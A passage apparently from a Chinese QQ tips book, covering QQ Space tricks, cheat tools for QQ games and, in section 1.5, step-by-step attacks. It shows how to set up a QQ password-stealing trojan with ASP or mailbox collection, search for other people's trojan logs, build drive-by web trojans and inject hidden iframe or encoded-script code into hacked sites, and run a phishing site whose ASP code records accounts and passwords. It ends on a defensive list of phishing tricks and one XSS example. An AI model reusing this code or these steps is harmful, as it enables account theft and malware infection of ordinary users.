在对方日志的左上角会有“转载到我空间”的选项，点击这个选项，然后输入验证码即可成功转载，如图111。转载日志增加原作者雨露指数3分，转载人的爱心指数不会增加。


图111

##### 三、“视频日志”及“Flash日志”

在“写日志”的时候不仅可以书写文字，还可以插入图片、视频以及Flash等内容。通过添加“视频日志”及“Flash日志”等，会使自己的空间内容更加丰富多彩，并且使用方法极其简单。

在写日志的时候，工具栏上最后的几个选项就是“插入图片”“插入视频”和“插入Flash动画”，如图112。


通过添加视频可以发布一些小短片，甚至电影内容，比如你QQ播客上传过的视频或者收藏的视频，如图113。


通过添加Flash可以加入一些Flash动画及小游戏，如图114，只需输入Flash地址就可以了！


#### 1.3.4 领养QQ空间植物

人们都说园丁是无私的，那么现在我们也有一个做园丁的机会，亲自领养一个QQ空间植物……植物，过一把园丁瘾！先来看看领养QQ空间植物有什么用。植物并不是白养的，它一来可以装饰空间，二来可以开花、结人参果，结果后可以换道具。

我们先来具体了解一下空间植物吧！**空间植物共有四项属性：阳光、爱心、雨露、营养。**

- 1、阳光指数  
每1个访客（不包括未登录的访客）给这项指数增加1分，每天增加分数上限为8分。

- 2、爱心指数  
自己每发表一篇日志、上传一张照片、音乐收藏中增加一个音乐专题、添加偶像资讯均增加3分，但添加一首音乐只增加1分；相应地，您删除一篇日志（不包括个性签名）、一张照片、音乐专题、偶像资讯也都要扣3分，删除一首音乐也要扣1分。每天增加分数上限为8分，减分无下限。

- 3、雨露指数  
网络日志与偶像资讯每增加一个非自己的回复就增加1分，每天增加分数上限为8分。

- 4、营养指数  
每在个人空间商城花费1元钱，给当前的植物的这一指数增加8分，不足1元部分累积（手机消费除外）；黄钻包月用户每月月初固定增加100分；当月开通黄钻资格的用户，当月不增加黄钻营养指数，从下月开始增加100分营养指数。

空间植物已经成为空间必不可少的伴侣，那么现在我们向大家介绍一下怎样领取空间植物。首先进入空间，单击右上角的“装扮空间”，然后点击“植物”，你会看到左边有1到5级植物，如图115。


单击1级植物，就会出现许多非常漂亮的花藤，喜欢哪个花藤，就点击其下对应的“领取”，然后点击“确定”，美丽的花藤就会出现在你的空间，如图116。


记住，现在不能直接关闭，再点击一下“保存装扮方案”，现在这盆美丽的花藤就属于你了。

养植物当然为了开花，开花也是为了花儿结果。花儿怎么样结果呢？看下面的果实说明：

- 1级植物：结出至少4个一级人参果
- 2级植物：结出至少5个一级至三级人参果
- 3级植物：结出至少6个一级至三级人参果
- 4级植物：结出至少7个一级至四级人参果
- 5级植物：结出至少8个一级至五级人参果

使用人参果您就可以开启神秘藏宝阁，兑换相应的神奇道具。  
怎么样？领了空间植物的你是不是体会到了园丁的辛勤与老师的用心呢？不管怎样，你要记得多照顾它哦，不然它会长得比别人慢的。

#### 1.3.5 轻松做5级花匠学徒

现在许多朋友都领养了空间植物，但大部分的园丁级别都是花匠学徒，传说中的花之神匠在何处呢？不过现在大家可以走个“捷径”，轻松做做传说中的“花之神匠”。我们只要按照以下几个简单的步骤进行操作就可以了。

- 1. 首先，自己必须要有花（等级不限）。
- 2. 点击“装扮空间”，然后在地址栏输入如下代码：

```javascript
javascript:visitCountCallBack({'visitcount':14213,'dayvisit':60,'spacemark':0,'markchange':0,'sun':200,'love':200,'rain':200,'nutri':200,'level':5,'gardener':5})
```

按下回车键后会发现，你的植物结出了人参果！先别急着高兴，这时不要着急摘人参果，因为那其实是假的。

- 3. 接下来我们再去领取5级花，如图117。选择好之后点击“保存方案”，如图118。不过这时还是有人参果，这个人参果还是不要摘。我们需要刷新一下，这样花就是你的了，否则直接点击人参果，5级花就会消失。


图117


图118

怎么样？你也去享受一下五级花匠的魅力吧！

#### 1.3.6 空间模块使用

有些朋友的空间总是图文并茂，经常有些Flash特效或视频穿插在里面，你想不想也和他们一样在空间首页插入这些东西呢？现在，我就把这几样模块的简单操作向大家介绍一下。首先进入空间，点击右上角的“自定义”，如图119，这时会弹出一个自定义模块，如图120。


我们选择第三个“新建模块”，这时会出现一个窗口，如图121，提供了图文模块、图片模块、Flash动画模块和视频模块四种可以添加的模块，你只需要选择想创建的模块即可。


下面为大家介绍一个使用模块装扮空间的例子。我们只需使用图片模块即可免费装备许多收费的挂件，这样也可以过一把黄钻装扮空间的瘾（只能装扮挂件）。

首先先去别人空间里找到你喜欢的挂件，然后在挂件上按鼠标右键，选择“属性”，如图122。这时你会看到该挂件的地址，如图123，把它复制下来。

接着进入自己的空间中，依次点击右上角的“自定义”－“新建模块”－“添加图片模块”进行模块编辑，如图124。


图124

为了只显示挂件的图片，标题使用空格，然后设成“无边框”会使效果更好。输入验证码，选择一个合适的位置，最后单击“保存”即可，如图125，效果是不是很棒啊？


图125

当然，你也可以直接去空间商城的挂件商品区直接挑选。选择喜欢的挂件后，同样在挂件上按鼠标右键，选择“属性”，如图126。


图126

需要注意的是，下一步要改一下URL地址：例如从属性得到的地址是 `http://imgcache.qq.com/qzone/space_item/pre/11/33259.gif`，则需要将此地址改为 `http://imgcache.qq.com/qzone/space_item/orig/11/33259.gif` 后再通过模块添加！

#### 1.3.7 QQ邮箱也能写日志

QQ邮箱也能写日志？对！如果你有多篇日志想要发表，不妨使用一下QQ邮箱来写日志，这样可以随时随地方便快捷地写日志啦！再也不必繁琐地在空间里埋头书写了，毕竟空间的速度令人不敢恭维，有时甚至无法登录、无法保存，甚至半途关闭！这都是有可能的。

用QQ邮箱写日志时：首先我们应该注意一下收信人的地址。地址格式为“你的QQ号码@qzone.qq.com”，同时必须用此QQ号码对应的邮箱向此QQ号码对应的空间发送邮件，否则将无效。

下面就可以来写日志了，这时邮件的主题就是日志的题目，邮件的内容也就是日志的内容，如图127。写完之后即可发表，最终效果如图128，怎么样？和在空间里写出来的是一样吧？


图127


图128

#### 1.3.8 空间搬家——迅速安家立户

自打腾讯推出了QQ空间，有不少网友也申请开通了。如果想把你在其他博客网站上的内容添加到QQ空间，那该怎么办呢？难道要一个一个重新输入？不要着急，腾讯推出的“QQ空间搬家工具”即可解决你的问题，但是目前只有51.com、搜狐、MSN、新浪和网易的博主可以享受这项功能。

我们登录网站：http://n.qzone.qq.com/move/move_login.htm，如图129，这就是搬家工具的页面。


图129

输入自己的QQ号码进行登录，然后选择你的博客，并且输入你博客的用户名，如图130。如果你是51博客，还可以向原博客的好友留言，告诉他们你的去向。一切设置完毕后，最后提交搬家申请即可，如图131，剩下的工作将在1分钟到12小时内完成，搬家完成后您将收到小纸条提示。


图130


图131

很多人的不错选择，你也来体验一下吧！

#### 1.3.9 秀一秀空间音乐

当你进入一个空间听到令人陶醉的音乐时，不由得会想到：这一定是个绿钻空间！结果查了一下，出乎所料，这不是绿钻空间。那哪来的空间音乐啊？八成以前是绿钻，早些时候买的吧！一直以来大家都以为，添加空间音乐那肯定是绿钻的专利，不过现在不是绿钻也能做到。

首先进入自己的空间，点击导航栏的“音乐盒”，如图132。然后单击左侧的“添加音乐”，这时右上角会出现一个“网络添加”，如图133。


图132


图133

“网络添加”虽然需要我们亲手操作，但却是免费的！单击“网络添加”，进入添加页面之后，把你所要添加的音乐信息输入进去，如图134。


图134

其中的“添加URL”就是歌曲的地址。那么如何获得你想要的音乐地址呢？我们利用百度音乐来搜索一下，如图135。


图135

选择好一首歌曲后进行试听，寻找一个在线播放速度快的，如图136。接着将歌曲的地址复制下来粘贴到“网络添加”的URL处，然后点击提交，如图137，添加音乐成功后就可以把它设置为背景音乐了。


图136


图137

以上工作已经完成了添加空间音乐的一大半，当然还有最重要的一点——要有播放器！有人可能会说，买播放器是要花钱的。没关系，我们可以寻找一个免费的嘛！

商城里有个免费播放器，名字为“blue”。我们进入商城，在搜索处输入“blue”，点击搜索即可找到它了，如图138。


图138

另外，还有一种方法就是使用代码，以下为部分播放器的代码：

```
旋律
javascript:window.top.space_addItem(6,1228,0,0,200,200,0);

blue
javascript:window.top.space_addItem(6,676,0,0,200,200,0);

茶色
javascript:window.top.space_addItem(6,702,0,0,200,200,0);

水晶年代
javascript:window.top.space_addItem(6,703,0,0,200,200,0);

完全透明隐藏版
javascript:window.top.space_addItem(6,676,1899,0,0,0,100);
```

这样，有了播放器以后，保存并刷新你的空间，尽情去享受空间音乐的魅力吧！

#### 1.3.10 人气暴涨——QQ空间人气精灵

空间人气是许多人追求的目标，它不但会提高你空间随机被访问率，还可以增加你空间的吸引力，使得你可以在其他用户面前炫耀一下。人气的增加并不容易，被访问一次才会增加一点人气，好慢哦！不过现在我们可以使用QQ空间人气精灵来帮忙。

首先打开人气精灵，如图139，在第一行输入你要刷人气的QQ号，然后选择速度。速度的选择一共有两种方式，一种是普通模式，6秒钟刷一点；另一种是VIP模式，3秒刷一点。我们一般选择普通模式即可。


图139

下面还需要几个不用的QQ号，如果实在没有，就临时注册几个，呵呵。有了号码之后点击“添加号码”，如图140。


图140

我们使用“批量登录”，进入后把那几个不用的号码输入即可。这些号码都是用来为你的号码刷人气用的，输入时一定要按照“QQ号码----QQ密码”的格式，如图141。


图141

添加完毕后退出批量添加，最后点击右上角的四个大字“开始工作”，你就会看到自己空间的人气正不断上升（注：每个QQ号每天只能刷100人气，刷完后，等到次日便恢复）。此软件还具有隐藏和定时关机功能，如图142。隐藏功能快捷键是Alt+Z，当想进入隐藏状态时按Alt+Z即可消失得无影无踪，再按Alt+Z即可出现。定时关机功能可随时为你轻松刷人气，刷完后自行关机，让你在不知不觉中成为人气达人。


图142

#### 1.3.11 瞬间变身人气达人

虽然“QQ空间人气精灵”可以帮助我们提高空间人气，但是使用下面的方法可以使我们瞬间变身人气达人，甚至比人气精灵得到的人气还多得多！这个超高人气的速成法就是QQ空间刷虚拟人气！

别一听到“虚拟”就感觉没劲了，这可是能让你不费吹灰之力就升至你想不到的数值，而且访问你空间的好友也是可以看到的！

首先进入空间，依次单击右上角的“自定义”－“新建模块”－“图文模块”，如图143。


然后，把图文模块的标题设为 **@VCP@**，在图文模块叙述的地方添加以下内容：

- @VCP(10000)
- @VCM(10000)
- @DVP(10000)
- @DVM(10000)

括号内的数值可随玩家需要来改变，不过四个数值必须相同。以上操作完成后输入验证码，点“保存”就可以了，如图144。


谁说天下没有白掉的馅饼？可是天上有白掉的人气！打开你的个人资料看看去吧，相信你自己也会大吃一惊的，如图145。


图145

#### 1.3.12 日志人气也来刷

每当有人进入空间浏览日志时，总是先看这篇日志的浏览量，然后再决定是否要看，这使得不少不错的新日志被漏过。既然空间人气可以刷，那这个浏览量应该也能刷吧？对！我们使用“QQ空间日志浏览量V1.90”即可解决，而且这也是一款不错的互踩工具。

打开“QQ空间日志浏览量V1.90”，如图146，在“QQ号码”处输入你要刷的QQ空间的QQ号码，然后点击“确定”。这时此QQ空间的日志会全部显示出来，如图147。


图146


图147

选择你要刷的那篇日志，点击“开始”就可以了，边刷还可以边通过右下角查看相关信息，如图148。


图148

#### 1.3.13 空间特色文字

如何让空间日志或者空间留言更加吸引别人的眼球呢？这不仅要在内容上下功夫，在形式上更是需要一些特色的文字来吸引目光！“ZONE文字自动加彩工具第二版”（如图149）可以让你的留言变得不再单调，将你的字变成十八种颜色！怎么样，够炫吧？


图149

使用方法也很简单，只要把你要写的内容输入到上面一层，然后点击“生成加彩字代码”，下面就会出现代码。再点击“复制代码”，然后到你想要写的地方粘贴上即可，效果如图150。此工具还可以加发光字，但只有自己写日志时才可加入，留言时受腾讯限制而不能加入。


图150

#### 1.3.14 QQ空间最近访客查询

大家都知道登录QQ空间可以查看该空间的最近访客，但是你如果要便捷地查询多个空间的最近访客，那该怎么办呢？我们可以登录 http://www.3k2.cn/qq/visitor.php?qq=查询的QQ号码 这个地址，从这里直接查看最近访客，并且可以直观地显示出最近访客的QQ秀以及空间昵称和QQ号码，如图151。


图151

#### 1.3.15 QQ空间Flash身份证

QQ空间Flash身份证是可以让您的Qzone更加个性的一种Flash身份标志，上面可显示出你的昵称、QQ号、性别、自定义头像、个性签名及虚拟人气等信息。在您的空间中加入Flash身份证，可以让你的空间更加与众不同。

QQ空间Flash身份证的制作其实也十分简单，我们登录 **http://www.3k2.cn/qq/qzone/**，如图152，直接在此网站即可生成。


图152

这里的空间身份证为我们提供了两种形式，简洁模式如图153，复杂模式如图154，大家可以根据自己的需要进行选择，然后输入相关资料，生成代码即可。


图153


图154

你可以把生成的Flash地址复制到你的空间个性签名中，或者是复制到其他论坛中，也可通过添加Flash模块用来装扮你的空间……这都是非常不错的选择！

### 1.4 驰骋QQ游戏

QQ游戏大厅是腾讯公司开发的游戏平台，用户群广泛，用QQ号和密码就可以登录到QQ游戏中心，无需再次注册。QQ游戏中使用的“货币”是游戏币与Q币，可以用来买游戏道具，比如双倍积分卡、护身符、小喇叭等等。

QQ游戏除部分小游戏外，大部分游戏都需要安装后才能进行游戏。每次游戏后赢了就会获得相应的积分，积分到达一定限度时就可以升级了，每个游戏的升级标准都不同。

游戏大厅如此受广大网友的喜爱，今天我就给大家介绍几款QQ游戏大厅的外挂程序。

#### 1.4.1 QQ游戏大厅多开

QQ刷分等操作都需要用到多开QQ游戏大厅，我们使用一款名为“QQ游戏大厅多开显隐身版”的工具即可实现此功能。此程序支持最新版本的QQ游戏大厅，我们只需打开此工具，输入QQ账号以及密码，然后点击“多开”即可进入QQ游戏大厅，如图155。


图155

如果需要打开更多游戏大厅，只需再次打开此工具，再次“多开”即可。使用此工具不仅可以多开显隐身，还可以使用蓝钻的“找人”功能，如图156。


图156

#### 1.4.2 QQ游戏宝盒——记牌器功能

QQ游戏宝盒这个名头确实是当之无愧！此工具提供了四人斗地主、欢乐斗地主、斗地主以及升级（拖拉机）的记牌功能和2D桌球（斯诺克）、大家来找茬、连连看的外挂功能，如图157。


图157

我以斗地主为例来展示一下记牌器的功能。首先打开QQ游戏宝盒，然后点击斗地主图标进入QQ游戏的斗地主游戏。这时你会发现一个横框，显示了左家出牌、右家出牌以及剩余的牌等信息，如图158。从这里你可以轻松得到对手出牌以及剩余牌的信息，从而使自己决定出什么牌。


图158

#### 1.4.3 2D桌球（斯诺克）瞄准器

在桌球游戏中，使用QQ游戏宝盒中的桌球外挂可以帮助我们进行瞄准，提高我们的进球率，让我们能够享受一下顶级桌球高手的乐趣。但是游戏中不同的杆法和力度还需要自己进行考量。

首先，在游戏宝盒中切换到桌球外挂上，然后进入桌球游戏中的斯诺克，如图159。游戏开始后，第一步需要自己手动使用右键选择袋口，打不同的球时切换不同的袋口；第二步需要右键选择目标球，看到外挂窗口左侧出现目标球的坐标为止；第三步需要按住F1，此时你会发现进球路径已经显示在桌面上。最后只需选择好力度，点击左键打出该球。


图159

为了提高瞄准器的准确率，我们可以打开设置稍微进行一下修改：取消阴影和深度两个选项，选择斯诺克2D球体，如图160。


图160

#### 1.4.4 大家来找茬外挂

首先，还是打开游戏宝盒，并且切换到大家来找茬的外挂上。进入找茬游戏，当需要找不同的图片出现后，点击外挂窗口上的放大镜图标，你会发现在左侧的图片上用红色阴影标识出了不同点，我们只要轻松动动鼠标，便会比别人快上几倍，第一名绝对“非外挂莫属”。

每次换新图片后都需要重新点击放大镜来实现查找功能，唯一注意的便是游戏窗口不要被其他程序窗口遮盖，否则影响外挂的查找功能。


图161

#### 1.4.5 QQ连连看外挂

许多朋友都喜欢玩连连看，有些时候也让我当当“陪练”，平日里老是欺负我，但是自从我有了游戏宝盒，嘿嘿……老规矩，打开游戏宝盒，切换到连连看的外挂，然后进入游戏。

游戏开始后你会发现在游戏画面上，相同的图标旁边多了两个红点，如图162，这个就是外挂的提示作用，在片刻之间即可为你找出。如果你还嫌手动操作有点慢，那就狂按F2吧，F2为“直接消除一对”的快捷键，卑鄙啊……呵呵。

需要注意的是，当对方用“路障”“对换”和“重排列”道具时，外挂会失效。但是不用担心，再按左侧的循环图标重新扫描即可。


图162

#### 1.4.6 五子棋终结者

五子棋终结者，一款执黑必胜的程序！电脑执黑子，玩家执白子，程序通过完全的、地毯式的计算，使得玩家永远不可能战胜电脑，也就是白子永远不可能战胜黑子。既然这样，那么我们把此程序应用到QQ游戏大厅中的五子棋游戏中，那岂不是也要终结其他玩家了？

进入QQ游戏的五子棋游戏（**注意：只可以是无禁手，有禁手通过对黑棋的种种限制，使黑棋的胜率降低**），选择一个右侧的座位坐下（因为右侧座位的玩家执黑子），等待其他玩家进行游戏。然后打开“五子棋终结者”，将此程序拖放到窗口右侧，然后按照“五子棋终结者”的走法去和对方下棋，如图163。


图163

其结果可想而知，玩过一局之后退出，再找一个右侧的座位继续以上操作，可达到刷分的效果（**注意：两人分差大于100，胜者得一分**）。

#### 1.4.7 QQ对对碰（角色版）外挂

QQ对对碰也是一个不错的休闲小游戏，可惜我玩不好。没关系，谁让我有QQ对对碰的外挂呢，如图164。进入游戏，打开外挂，一切都在我们的掌控之中。


图164

我先来介绍一下这个外挂的功能吧。如果你想刷分，可以使用“自动模式”，选择一个适当的速度，避免让别人看出你在用外挂，然后你就只顾进行游戏了。如果你想尝试一下“高手”的快感，就把速度调到最快，一眨眼的功夫，你已经胜利了。

在“其它操作”中，可以选择“终极加速”，此功能取消了游戏中的动画效果，并为对对碰加速。“自动道具”，顾名思义，就是自动使用道具了。游戏中如果不想使用自动模式，那就按F9一对一对地消除。

#### 1.4.8 QQ泡泡龙外挂

QQ泡泡龙外挂拥有自动瞄准功能，启动外挂后会在箭头上出现瞄准线，并且可以自动反射线，可以使我们更准确地把泡泡发射到指定位置，如图165。


按F4可以获得无限泡泡，这些泡泡只能用于消除自己的泡泡，并不能攻击对手。如果是游戏中获得的泡泡则不会受影响，游戏中获得的泡泡在下方会显示个数，但不会百分之百准确。我们还可以锁定攻击，就是选择好指定玩家，外挂会自动攻击对方。

**注意：在获得无限泡泡后不能立即看到，需要使用一个泡泡后才可以看到，但是不会对使用造成影响。**

#### 1.4.9 QQ火拼俄罗斯外挂

想不想让电脑自动帮您玩QQ火拼俄罗斯方块游戏？自动摆放、自动使用道具，而且速度相当快，智能相当高！这样我们就可以解放双手，一切交给外挂处理，并且实现刷分功能。

如果你要刷分，需要首先选择“自动道具”和“自动准备”。然后打开游戏窗口（在游戏中使用默认的按键设置，进入火拼俄罗斯的“参数设置”窗口，按一下“返回默认值”），并且不要有其它程序挡住游戏窗口。最好还要取消背景声音和游戏音效，取消消层动画。这样一来，按F9开始后，你就可以纵横于俄罗斯的世界了，如图166，不论对手多强也不是你的对手。

#### 1.4.10 QQ棋牌游戏伴侣

QQ棋牌游戏伴侣支持所有QQ牌类游戏，例如升级、保皇、斗地主、拱猪等，可谓功能强大。下面我就以“红十”为例给大家演示一下此伴侣的用法。

首先，在游戏开始之前运行QQ棋牌游戏伴侣，如图167。此时，在屏幕右下角会出现一个黑桃图标，如图168。


图166


图167


图168

接着进入QQ游戏，这时软件会自动嵌入游戏软件，和游戏合为一体。游戏开始后，软件会自动记录打牌过程，整个过程无须人为干预。

我们来看看四人红十界面（如图169）以及五人红十界面（图170），怎么样，够直观吧？使用此软件还有一个朋友合作的功能，如图171。


图169


图170


图171

如果你和朋友属于同一局域网，可以使用此功能，输入自己和朋友的内网IP地址，然后进行连接。这样一来，软件会在每次牌局开始的时候通过这个连接自动把你的牌发送给你的朋友，同时对方也会把他的牌发给你，这样一来你们便可以互通有无。**注意：此功能支持斗地主、升级和挖坑。**

#### 1.4.11 QQ挖金子外挂

QQ挖金子外挂是一个快速提高QQ挖金子游戏积分和等级的工具，使用此工具可以秒杀对手、透视游戏池、标记陷阱、刷分等等。一般使用“只挖一个”同别人一起玩，不易被人发现你使用外挂，快捷键是F9，如图172。


图172

当你选择“透视游戏池”就可以轻松看到金子和炸弹了，而且还可以标记陷阱，快捷键为F10。如果你想迅速得分就使用“秒杀对方”，可以使自己快速取胜，如图173。


图173

刷分选项提供给我们解脱双手的办法，让我们的电脑挂在那里就可以不断取胜，不断刷分！

### 1.5 QQ黑客攻防

#### 1.5.1 QQ盗号木马使用

盗号木马是具有盗取QQ账号能力的木马病毒。在您浏览带有盗号木马病毒的网站时，或者打开带有木马病毒的文件时，它会入侵您的计算机，伺机盗取您的QQ密码。

工作原理：监视用户登录密码的操作→通过远程端口把操作记录传输给事先设定好的地点→制作者收到后，把密码和账号窃取→修改密码，洗劫所有有价值的虚拟物品。

下面以金狐QQ2008大盗为例，向大家介绍一下QQ盗号木马的使用。先来配置木马，打开金狐QQ2008大盗，如图174。


图174

金狐QQ2008大盗提供空间收信与邮箱收信两种方式。如果使用空间收信，则需要使用记事本打开QQ.asp更改一下里面的内容。**把 `strLogFile="2008jhqqxx.txt"` 中的 `2008jhqqxx.txt` 改成你自己想要的文件名**，如图175。


图175

这个文件就是接收密码的文件，所以为了安全起见，改一个别人猜不到的文件名为宜。然后将QQ.asp上传到你的asp空间即可，以后通过这个文件就可以查看你的成果了。

邮箱收信虽然不如使用空间稳定，但是对于很多没有空间的朋友来说却是非常实用的。下面就是邮箱收信的设置：“收信邮箱”填写接收盗号成果的邮箱，“发信邮箱”填写发信的邮箱，最好与收信邮箱不使用同一个；“账号”和“密码”处填写用于发信的邮箱账号和密码；“SMTP服务器”填写你使用的邮箱的SMTP服务器，在提供邮箱的主页上可以查询到。我们来了解下SMTP服务器。

##### 什么是SMTP和POP3服务器？

SMTP是发送邮件的服务器，例如163的邮箱，发件服务器是 `SMTP.163.COM`；POP3是邮件接收的服务器，例如163的邮箱，收件服务器是 `POP3.163.COM`。常见的各家电子邮件提供商的SMTP和POP服务地址如下：

| 邮箱 | POP3服务器 | SMTP服务器 |
|---|---|---|
| 网易@163.com | pop.163.com | smtp.163.com |
| 网易@yeah.net | pop.yeah.net | smtp.yeah.net |
| 网易@netease.com | pop.netease.com | smtp.netease.com |
| 网易@126.com | pop3.126.com | smtp.126.com |
| 搜狐@sohu.com | pop3.sohu.com | smtp.sohu.com |
| 信网@eyou.com | pop3.eyou.com | mx.eyou.com |
| 新飞网@tom.com | pop.tom.com | smtp.tom.com |
| 亿唐@etang.com | pop.free.etang.com | smtp.free.etang.com |
| 21世纪@21cn.com | pop.21cn.com | smtp.21cn.com |

配置完成就可以生成你的木马了。只要别人打开了你生成的木马，然后成功登录QQ后，程序将会在操作系统后台立即隐藏发送包含QQ账号和密码的信件到你的ASP空间或者信箱。你可以详细地收到QQ账号、密码以及是否是QQ会员、IP地址和发信时间。

#### 1.5.2 巧搜索，挖账号

通过对QQ木马的了解，我们知道，QQ木马生成器的网页收信都有默认的存储路径，而利用挖掘鸡恰好能通过扫描获得敏感信息，从而挖出QQ箱子。常见的QQ木马默认的收信地址有：`log.txt`、`jinhuqq.txt`、`2008jhqqxx.txt`、`qq.txt`、`qqpass.txt`、`tmdqq.asp`、`qq.asp`……有些人懒得修改，所以我们就有机可乘了。

打开挖掘鸡V1.1（此版本搜索速度比较快），在URL后缀选项中添加QQ木马默认的收信地址，如图176。


图176

在“关键词”中添加搜索的关键词，可以添加“inurl:qq.txt”，此时程序会搜索URL中的qq.txt链接。“超时”和“线程数”保持默认即可。一切设置好后点击“开始”，程序将自动扫描。通过“检测进程”我们可以监视程序的扫描，如图177。


图177

等程序找到目标后，会显示在“检测结果”中，如图178，并且程序底部会显示“有效链接”的数目。


图178

经过漫长的等待，程序已经搜索了N多个有效地址了，切换到“检测结果”，双击一个URL链接即可打开！看，有不少QQ密码呢，如图179！


图179

除了使用工具，我们当然也可以直接利用搜索页面搜索inurl:qq.txt、inurl:jinhuqq.txt等关键字，同样能找到许多成果，如图180，但数量和质量上不及工具。


图180

#### 1.5.3 网页木马

网页中的脚本恰如其分地利用了IE浏览器的漏洞，让IE在后台自动下载黑客放置在网络上的木马并运行（安装）这个木马。也就是说，这个网页能下载木马到本地并运行（安装），整个过程都在后台，用户一旦打开这个网页，下载过程和运行（安装）过程就自动开始。

我以暗黑大战综合网马生成器为大家配置一下网马。首先需要找一个能下载exe程序的空间，然后上传你的木马，并记住URL。接下来打开暗黑大战综合网马生成器，如图181，在“木马地址”中填写木马的URL，中马者就会下载这个地址的程序并运行，从而中马。


图181

为了木马的安全性，在右侧的功能上选择“过端星卡卡”“过主动防御”“智能组合页”，然后“生成”，如图182。把生成的这些页面再次上传到你的空间中，然后将网马的URL地址记住，以后就可以让别人访问这个页面而中马了。


图182

网马配置好了，说起利用，当然就是挂马了。当你入侵了别人的网站，在别人网站的页面上添加挂马代码，那么其他用户访问该网站的时候也会访问你的盗号木马，到时候他的QQ号自然也就逃脱不了了！

- 1. 框架挂马

```html
<iframe src=地址 width=0 height=0></iframe>
```

在框架挂马中，上述iframe代码为挂马最常用的方式，代码使用了iframe框架形式插入一个长宽都为0（隐藏方式）的网页，这个方式简单，但是也最容易被管理员识别。

- 2. JS文件挂马

```javascript
document.write('<iframe width="0" height="0" src="地址"></iframe>');

<script language="javascript" src="123.js"></script>
```

- 3. JS变形加密

同上面一样，将代码 `document.write("<iframe width='0' height='0' src='地址'></iframe>");` 保存，但是可以保存为任意后缀，例如123.txt。然后使用代码 `<SCRIPT language="JScript.Encode" src=123.txt></script>` 进行调用即可。

以上介绍了三种比较简单的挂马方式，其它还有CSS挂马、JAVA挂马、图片挂马等方式，大家可以自己去尝试一下。

#### 1.5.4 网络钓鱼——钓QQ

最典型的网络钓鱼攻击是将收信人引诱到一个通过精心设计后与目标网站非常相似的钓鱼网站上，并获取收信人在此网站上输入的个人敏感信息。通常这个攻击过程不会让受害者警觉，它是“社会工程学攻击”的一种形式。网上已经有许多高手制作了QQ钓鱼网站，我们取得源代码即可直接利用，如图183。


图183

在这之前，我们需要更改一下数据库的地址，把数据库“qqpass.mdb”改个名字，避免别人直接下载我们的“成果”。然后打开“pet_qq_action.asp”文件，找到里面的("qqpass.mdb")，把引号里面的内容改成你刚才改的数据库的名字。比如你把“qqpass.mdb”改为了“123.mdb”，那么打开“pet_qq_action.asp”文件后要把里面的("qqpass.mdb")改为("123.mdb")就行了。

接下来编辑“pet_qq_login.html”这个网页，这是钓鱼的主页面。为了不露出马脚，把里面的日期改一下，你也可以对活动规则稍作修改。改好之后上传到asp空间，“http://你的域名/pet_qq_login.html”这个就是我们做好的假QQ宠物网站了，效果如图184。


图184

剩下的不用我讲，你也知道怎么做了吧？只要对方在这里登录，就会出现“系统忙，请您稍后登录！”的字样，然后跳转到QQ宠物的官方主页“http://pet.qq.com/index.shtml”。

这个时候你的数据库已经神不知鬼不觉地把他的账号和密码记录下来了，我们把数据库下载回来，就能看到登录过的QQ账号和密码，如图185。“name”列下的就是账号，“pass”列下的就是密码。


假冒QQ宠物网站盗QQ号只是钓鱼方式中的一个，毕竟现在宠物的诱惑力已经很小了，我们还可以利用这个原理制作其它的钓鱼网站。

简单地说，这个网页就是将文本框中用户输入的内容，也就是他的账号和密码保存在了数据库中。这样我们可以利用腾讯官方网站，然后在上面动动手脚，把文本框的工作内容更改一下。根据这个原理，我们可以自己制作钓鱼网站。

新建一个文本文档，写入以下代码，并保存为asp格式，如图186。


```asp
<%
dim db,strcon,qq,pass,rs,strSql
strcon="dbq="& server.mappath("qqpass.mdb") &"; driver={microsoft access driver (*.mdb)}"
Set db=Server.createobject("ADODB.connection")
db.open strcon
qq=Request("u")
pass=Request("p")
strSql="INSERT INTO pass(name, pass) VALUES('"& qq &"','"& pass &"')"
db.Execute(strSql)
%>
<script language="javascript">
alert("系统忙，请您稍后登录！")
</script>
<script LANGUAGE="JavaScript">
<!--
window.location="http://你需要跳转的页面地址";
// -->
</script>
```

然后新建一个数据库，数据库的名字要与前面asp页面中的"qqpass.mdb"保持一致。最后在主页面中添加以下代码即可实现钓鱼的功能，如图187。

```html
<FORM action=pet_qq_action.asp method=post target=_self>
```

```html
<input name="u" type="text" size="20" />
<input name="p" type="text" size="20" />
<input name="B1" value="提交" type="submit" />
```


图187

以上代码中的“action=”后的“pet_qq_action.asp”就是你刚刚做的asp页面的名称。完成之后把数据库、asp页面放在和钓鱼主页的同一目录下，最后连同qqpet.files一起上传到你的空间，效果与前面的假冒QQ宠物站钓鱼一样。其它的网页制作我就不必多言了，在有了基础代码以后，任意发挥你的网页制作本领吧！

#### 1.5.5 钓鱼常见手段

QQ钓鱼网站地址多为有qq字样，点击进入页面后有仿制的QQ公仔形象，页面正中有明显要求输入QQ号、密码、验证码的对话框。目前这些网站多为骗取用户点击率，还有许多为骗取用户密码。欺骗的实现形式有许多种，其传播也是最泛滥的，而且危害极大。下面给大家介绍几种常见的钓鱼手段方式，请大家提高警惕。

- 1. 形似法

我们在聊天的过程中经常会收到类似www.qq.com、www.1633.com、www.sing.com这样的“官方网址”，不难发现，这些地址都跟知名网站的网址十分相似；如果我们不仔细看，很容易中招。不过这只是雕虫小技，还是很容易识别的。

- 2. 添加后缀法

网络中还有更厉害的地址欺骗，例如www.qq.digua.net、www.ccb.xxx.cn之类的网址就可以假乱真。网址前缀和官方网址一模一样，不一样的就是后面多了一个后缀，让我们防不胜防。其实这样的网址就是利用了网络中的免费二级域名资源，“qq”就是骗子所注册的二级域名前缀，后缀是免费二级域名服务商的顶级域名。如此一来，网站地址就变成了www.qq.xxx.com。由于我们的阅读习惯，所以一不小心就中招了。对于此类网址，我们谨记不要浏览带有可疑后缀的网址，并且要知道，所有的正规网站都有自己的顶级域名，不会采用这类网址。

- 3. 乱码法

此外，http://%77%77%77%2E%63%70%63%77%2E%63%6F%6D 也是我们在网络中经常遇到的网址，这种网址看似乱码，但“背后”却是骗人网站。只要利用一款名为“网址编码解码器”的软件，就能将任意网址编码成这种“乱码”网址。看到这种网址，最好不要访问。如果一定要访问，可以事先使用“网址编码解码器”进行解码，从而查看到真实网址。

- 4. 跨站法

这是一种比较先进的欺骗手段，欺骗者利用程序员在编写代码时对一些变量没有做充分过滤所产生的跨站漏洞实现欺骗，这种跨站漏洞甚至在许多大规模的网站上普遍存在，域名更加令人难以辨别。

以下是部分跨站漏洞：

```
搜狐跨站：http://learning.sohu.com/s2007/07tzs/?stra=<script>alert("test")</script>
